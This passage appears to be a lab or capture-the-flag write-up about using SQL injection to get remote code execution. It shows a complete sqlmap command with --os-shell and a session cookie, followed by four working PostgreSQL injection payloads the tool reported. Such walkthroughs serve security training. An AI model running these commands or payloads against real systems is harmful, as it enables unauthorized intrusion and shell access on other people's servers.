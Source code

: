 ### Obtaining RCE abusing SQL Injection using SQLMAP

As we have found possibly valid credentials, now we move into the foothold stage.

Checking the website's table, we can think about SQL Injection.

We will use SQLMAP to try a possible SQL Injection on this table in order to obtain RCE.

`--os-shell` Parameter will spawn a OS shell if possible, `--forms` will tell `SQLMAP` to try the injection through the `HTML` forms and `--batch` will skip all questions.

Additionally, we need to specify our session cookie for SQLMAP to work, we can find it using the Developer Tools of our web browser.

<p align="center"><img src="img/3_cookie.png" alt="Dashboard"></img></p>

```shell
❯ sqlmap http://http://10.129.95.174/dashboard.php --cookie="PHPSESSID=dfmijaugc0b208fm48ij06bhg3" --os-shell --forms --batch
```

Those are the payloads `SQLMAP` found to be valid:

```shell
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=sgfh' AND (SELECT (CASE WHEN (5021=5021) THEN NULL ELSE CAST((CHR(73)||CHR(70)||CHR(76)||CHR(75)) AS NUMERIC) END)) IS NULL-- pNGw

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=sgfh' AND 5875=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5875=5875) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(98)||CHR(98)||CHR(106)||CHR(113)) AS NUMERIC)-- Rjwr

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=sgfh';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=sgfh' AND 6747=(SELECT 6747 FROM PG_SLEEP(5))-- eXNX
```
